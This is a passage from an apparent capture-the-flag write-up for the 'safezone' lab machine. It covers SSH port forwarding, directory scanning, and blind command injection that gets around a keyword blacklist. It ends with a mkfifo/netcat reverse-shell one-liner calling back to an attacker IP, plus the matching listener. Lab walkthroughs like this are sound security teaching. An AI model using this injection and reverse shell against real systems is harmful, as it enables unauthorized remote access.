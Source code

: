   ```sh
  mysql -u yash -p

  # none of the above combinations work

  # check port 8000
  curl http://localhost:8000
  # we get a 403 Forbidden page
  ```

* As we are unable to access the internal page on port 8000, we can attempt port forwarding and see if it still persists:

  ```sh
  ssh files@safezone.thm -L 8081:127.0.0.1:8000
  # port forwarding
  # we can check if we are able to access the internal service, on port 8081 in attacker machine

  # in attacker machine
  curl http://localhost:8081
  # we still get 403 Forbidden

  # we can do directory scanning to check for any hidden directories or files
  gobuster dir -u http://localhost:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg,pl,ps1 -t 25
  ```

* The directory scan gives us the pages /login.html and /pentest.php - we can check this on our browser as well

* /login.html is a login form with username and password; we will come back to this later

* /pentest.php includes an input form with the placeholder 'Message for Yash' and has a 'Submit Query' button.

* The page just seems to print whatever message we feed into it. Using Burp Suite, we can intercept a request to check further

* From testing basic payloads, the app seems to blacklist certain keywords and characters such as 'id', 'whoami', ';' and '`', and these are removed from the response.

* Furthermore, the 'msg' parameter seems to accept payloads such as ```cat /etc/passwd```, but we do not see any output.

* However, when we use commands such as ```touch /tmp/testing.txt```, it works. When we do a ```ls -la /tmp``` from the SSH session as 'files' user, we can see there is a 'testing.txt' file created by user 'yash'. So we have command execution as 'yash'

* As multiple strings are blacklisted, we can trick the app into executing a reverse-shell as 'yash' - we can create a shell as 'files', but it should be executed by 'yash':

  ```sh
  # in 'files' SSH session
  cd /tmp

  echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.130.30 4445 >/tmp/f" > revshell

  chmod +x revshell

  # in attacker machine
  nc -nvlp 4445
  ```
